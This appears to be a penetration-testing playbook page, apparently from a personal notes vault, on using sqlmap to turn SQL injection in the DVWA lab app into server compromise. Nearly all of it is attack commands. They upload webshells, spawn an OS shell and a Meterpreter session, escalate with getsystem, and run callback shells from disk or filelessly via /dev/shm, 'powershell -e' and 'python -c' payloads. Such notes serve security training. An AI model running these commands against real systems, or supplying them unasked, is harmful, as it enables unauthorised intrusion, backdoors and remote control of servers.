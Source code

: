 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - post-exploitation
  - server-side-attack
  - webshell
  - sqlmap
  - dvwa
---
```

# 01 - Webshell

> [!IMPORTANT] Conditions
> 1. The DB user must have **FILE** and **SELECT** privileges with the flags `--privileges -U CU`.
> 2. Find the web root directory using the enumeration methods.
> 3. The web root directory must have write permissions.

### 5.1.1 - Upload a specific Webshell

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x00 - Payloads/Helpers/Webshells/PHP|link]] to generate interactive weevely webshells and click [[07 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/0x00 - Webshells/Weevely/Usage/00 - Help Menu|here]] for post exploitation section.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/webshell.php" --file-dest="/var/www/html/dvwa/shell.php"
```

### 5.1.2 - Spawn an Interactive Webshell

TODO: Provide **\[INFO\]** logs to demonstrate a different between a file web stager (the uploader file) and a backdoor (an interactive shell)

Great thing about SQLMap that not only it uploads an interactive **web backdoor (the webshell)** it also comes with the **web file stager (the uploader)**.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-shell --web-root="/var/www/html/dvwa/"
```

### 5.1.3 - Spawn a Meterpreter Shell

Start a shell handler listener in Metasploit to retrieve a callback meterpreter session.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-pwn --web-root="/var/www/html/dvwa/"
```

> [!NOTE] GetSystem Privilege Escalation
> When using the `--priv-esc` flag this is for targeting Windows operating systems to automate using the `getsystem` function for impersonation.

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --random-agent --os-pwn --web-root="/var/www/html/dvwa/" --priv-esc
```

### 5.1.4 - Execute OS Command

#### 5.1.4.1 - Cross Platform

Execute any command

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="whoami"
```

#### 5.1.4.2 - Linux

Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/tmp/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python /tmp/shell.py"
```

Execute the callback shell in memory (fileless memory)

1. Copy the file in `/dev/shm/` directory

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.py" --file-dest="/dev/shm/shell.py"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python /dev/shm/shell.py"
```

2. Execute a one liner

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python -c <payload>"
```

#### 5.1.4.3 - Windows

TODO: Fill in this info to test a windows environment

- Execute the callback shell in disk

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --file-write="/path/to/shell.exe" --file-dest="C:/windows/temp/shell.exe"

$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="cmd /c C:/windows/temp/shell.exe"
```

- Execute the callback shell in memory (fileless memory) via powershell

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="powershell -e <base64_encoded>"
```

- Execute the callback shell in memory (fileless memory) via python

```
$ sqlmap -u "http://dvwa.local/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "PHPSESSID=<PHP_cookie_session>; security=low" --random-agent --os-cmd="python -c <payload>"
```

---
## References

### Backlinks

- [[02 - Webshell]]

### Hacking Articles

- [Hacking Articles: File System Access on Webserver Using SQLmap](https://www.hackingarticles.in/file-system-access-on-webserver-using-sqlmap/)

- [Hacking Articles: Shell uploading in Web Server using Sqlmap](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)

- [Hacking Articles: Command Injection Exploitation through Sqlmap in DVWA (OS-cmd)](https://www.hackingarticles.in/command-injection-exploitation-through-sqlmap-in-dvwa/)
